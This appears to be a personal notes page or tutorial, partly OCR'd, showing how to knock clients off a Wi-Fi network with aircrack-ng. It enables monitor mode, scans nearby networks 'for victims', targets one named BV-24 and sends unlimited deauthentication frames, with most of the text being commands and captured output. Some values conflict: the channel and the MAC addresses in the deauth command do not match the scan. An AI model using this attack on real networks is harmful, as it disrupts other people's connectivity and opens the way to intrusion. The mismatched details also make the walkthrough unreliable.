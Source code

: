 eleWe need to use aircrack-ng for this attack.

First, type `iwconfig` to see the name of your wireless adapter
Next, let's set up our network card in monitor mode by typing:
```bash
airmon-ng start wlan0
```

```ad-info
You have to run it as root!
```

This is the output:
```bash
Found 2 processes that could cause trouble.  
Kill them using 'airmon-ng check kill' before putting  
the card in monitor mode, they will interfere by changing channels  
and sometimes putting the interface back in managed mode  
  
   PID Name  
   540 NetworkManager  
   562 wpa_supplicant  
  
PHY     Interface       Driver          Chipset  
  
phy0    wlan0           iwlwifi         Intel Corporation Cannon Lake PCH CNVi WiFi (rev 10)  
               (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)  
               (mac80211 station mode vif disabled for [phy0]wlan0)
```

now checking `iwconfig` we can see we are in monitor mode:
```bash
❯ iwconfig  
lo        no wireless extensions.  
  
enp3s0    no wireless extensions.  
  
wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=-2147483648 dBm      
         Retry short limit:7   RTS thr:off   Fragment thr:off  
         Power Management:on
```

To start searching for victims, you have to run 
```bash
airodump-ng wlan0mon
```

It starts searching on 2.4ghz on differerent channels

```bash
CH 12 ][ Elapsed: 18 s ][ 2023-03-26 11:09    
  
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID  
  
50:D2:F5:4B:60:F4  -50       36       15    0   3  270   WPA2 CCMP   PSK  BV-24                                                                                                    
50:D2:F5:9D:63:93  -49       41       31    3   3  270   WPA2 CCMP   PSK  BV-24                                                                                                    
80:3F:5D:FE:77:42  -56       28        0    0  10  270   WPA2 CCMP   PSK  BV-GN-24                                                                                                 
  
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes  
  
50:D2:F5:4B:60:F4  9C:BC:F0:A8:13:33  -69    0 - 1e     0        6                                                                                                                  
50:D2:F5:4B:60:F4  04:CF:8C:7C:AB:C6  -43    0 - 1e     0       13                                                                                                                  

```

```ad-note
If you want to use 5Ghz channels, you have to specify the `-b` command with the argument `a`
```


Now that we know our target, let's make it BV-24, we have to run airodump specifically on that, for that we use:

```bash
airodump-ng -d 50:D2:F5:4B:60:F4 -c 11 wlan0mon
```

and then we can deauth a device using:
```bash
aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan0mon
```

where `-0` means deauthentication, 0 is the number of deauths to send, 0 means infinite.
`-a` is the mac of the access point we are targeting, and `-c` is the client to deauthitenticate. and `wlan0mon` is the interface. 

